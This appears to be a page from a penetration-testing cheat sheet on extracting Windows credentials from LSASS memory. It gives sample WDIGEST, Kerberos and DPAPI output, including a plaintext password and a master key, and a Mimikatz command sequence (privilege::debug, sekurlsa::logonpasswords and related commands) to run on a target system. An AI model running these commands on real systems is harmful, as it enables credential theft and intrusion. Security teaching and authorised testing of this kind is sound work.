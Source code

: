 #### WDIGEST (Legacy Authentication)
```bash
# Contains plaintext passwords on older systems
# Windows XP - Windows 8
# Windows Server 2003 - Windows Server 2012

# Example output:
== WDIGEST ==
username: bob
domainname: DESKTOP-33E7O54
password: Password123!  # Plaintext on older systems
```

#### Kerberos (Active Directory)
```bash
# Contains:
- Kerberos tickets
- Encryption keys
- Service tickets

# Example output:
== Kerberos ==
Username: bob
Domain: DESKTOP-33E7O54
Password: Password123!
```

#### DPAPI (Data Protection API)
```bash
# Contains:
- Master keys
- Key GUIDs
- Encryption keys for protected data

# Example output:
== DPAPI ==
luid: 1354633
key_guid: 3e1d1091-b792-45df-ab8e-c66af044d69b
masterkey: e8bc2faf77e7bd1891c0e49f0dea9d447a491107ef5b25b9929071f68db5b0d55bf05df5a474d9bd94d98be4b4ddb690e6d8307a86be6f81be0d554f195fba92
```

### Live Memory Extraction

#### Using Mimikatz (Direct)
```cmd
# Run on target system
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords

# Extract specific authentication packages
sekurlsa::msv
sekurlsa::wdigest
sekurlsa::kerberos
sekurlsa::dpapi
```
